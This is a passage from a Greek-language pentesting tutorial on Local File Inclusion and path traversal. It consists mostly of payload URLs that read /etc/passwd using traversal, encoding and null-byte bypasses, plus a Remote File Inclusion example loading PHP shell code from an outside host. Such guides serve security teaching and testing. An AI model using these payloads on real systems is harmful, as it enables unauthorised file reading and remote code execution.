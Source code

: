 Δοκιμάστε επίσης να αλλάξετε το `/` με `\`\
Δοκιμάστε επίσης να αφαιρέσετε το `C:/` και να προσθέσετε `../../../../../`

Μια λίστα που χρησιμοποιεί αρκετές τεχνικές για να βρει το αρχείο /boot.ini (για να ελέγξει αν υπάρχει η ευπάθεια) μπορεί να βρεθεί [εδώ](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

### **OS X**

Ελέγξτε τη λίστα LFI του linux.

## Basic LFI and bypasses

Όλα τα παραδείγματα είναι για Local File Inclusion αλλά θα μπορούσαν να εφαρμοστούν και σε Remote File Inclusion (σελίδα=[http://myserver.com/phpshellcode.txt\\](http://myserver.com/phpshellcode.txt\)/).
```
http://example.com/index.php?page=../../../etc/passwd
```
### ακολουθίες διαδρομής χωρίς αναδρομή
```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```
### **Null byte (%00)**

Παράκαμψη της προσθήκης περισσότερων χαρακτήρων στο τέλος της παρεχόμενης συμβολοσειράς (παράκαμψη του: $\_GET\['param']."php")
```
http://example.com/index.php?page=../../../etc/passwd%00
```
Αυτό έχει **λυθεί από το PHP 5.4**

### **Κωδικοποίηση**

Μπορείτε να χρησιμοποιήσετε μη τυπικές κωδικοποιήσεις όπως η διπλή κωδικοποίηση URL (και άλλες):
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
### Από υπάρχον φάκελο

Ίσως το back-end να ελέγχει τη διαδρομή του φακέλου:
```python
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```
### Exploring File System Directories on a Server

Το σύστημα αρχείων ενός διακομιστή μπορεί να εξερευνηθεί αναδρομικά για να εντοπιστούν οι φάκελοι, όχι μόνο τα αρχεία, χρησιμοποιώντας ορισμένες τεχνικές. Αυτή η διαδικασία περιλαμβάνει τον προσδιορισμό του βάθους του φακέλου και την αναζήτηση για την ύπαρξη συγκεκριμένων φακέλων. Παρακάτω παρατίθεται μια λεπτομερής μέθοδος για να το επιτύχετε αυτό:

